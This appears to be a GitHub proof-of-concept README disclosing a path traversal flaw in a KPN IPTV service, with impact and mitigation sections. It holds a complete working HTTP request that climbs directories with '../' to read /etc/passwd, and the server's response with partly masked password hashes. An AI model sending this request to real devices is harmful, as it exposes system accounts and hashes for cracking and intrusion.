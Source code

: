 # KPN-FilePathTraversal-POC-2023

# KPN ITV File Path Traversal Vulnerability

This repository explains a **file path traversal vulnerability** in the KPN IPTV service, allowing unauthorized access to sensitive system files, such as `/etc/passwd`.

---

## Vulnerability Overview

A **path traversal** (or directory traversal) attack occurs when an attacker manipulates the URL path to access directories and files outside the intended web directory. By using sequences like `../../`, an attacker can navigate up the directory structure and potentially access sensitive files.

---

## Example Attack Flow

### URL:
```plaintext
http://192.168.2.2:8081/Service/Controller/UI?ip=192.168.2.2&port=8081

This is the base URL of the KPN IPTV service.
Malicious Request:

http

GET /Service/Controller/UI../../../../../../../../../../../../../../../../etc/passwd?ip=192.168.2.x&port=8081 HTTP/1.1
Host: 192.168.2.x:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

In this request, the attacker exploits path traversal to reach the /etc/passwd file. This is done by adding multiple instances of ../, which moves up the directory structure.
Burp Suite Response

The server responds with a 200 OK status and the contents of the /etc/passwd file, including sensitive information. The hashes in the response below have been blurred for privacy:

plaintext

HTTP/1.1 200 OK
Content-Type: unknown
Content-Length: 940

root:$5$96bRk************$uTSh**************RLdK1ND*********/XLWC:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
ntpd:x:1001:65534:Linux User,,,:/var/shared/empty:/bin/sh
utc:$5$qkymr************$M1qu**************JoEifmNs********AiybaC:1000:1000:utc:/home/utc:/bin/sh

Explanation of /etc/passwd

The /etc/passwd file stores essential user account information for a Unix-based system. It typically includes the following information:

    Username
    Password hash (if present)
    User ID (UID)
    Group ID (GID)
    Home directory
    Shell

While modern systems store password hashes in the /etc/shadow file, /etc/passwd can still leak important information, especially for attackers targeting system accounts.
Impact

    Information Disclosure: Attackers can access sensitive files like /etc/passwd, revealing system user information.
    Potential Exploitation: With access to password hashes, attackers can attempt password cracking or gain unauthorized system access.

Mitigation

    Input Validation: Ensure all user inputs are validated and sanitized to prevent malicious sequences like ../.
    Restrict Directory Access: Configure the web server to limit access to sensitive directories.
    Use Web Application Firewalls (WAFs): A WAF can help detect and block suspicious URL patterns associated with path traversal attacks.

Conclusion

Path traversal vulnerabilities can lead to severe data exposure and compromise system integrity. This example from the KPN IPTV service demonstrates how improper input validation can open the door to sensitive information leakage. Always implement strong security measures to mitigate such risks.
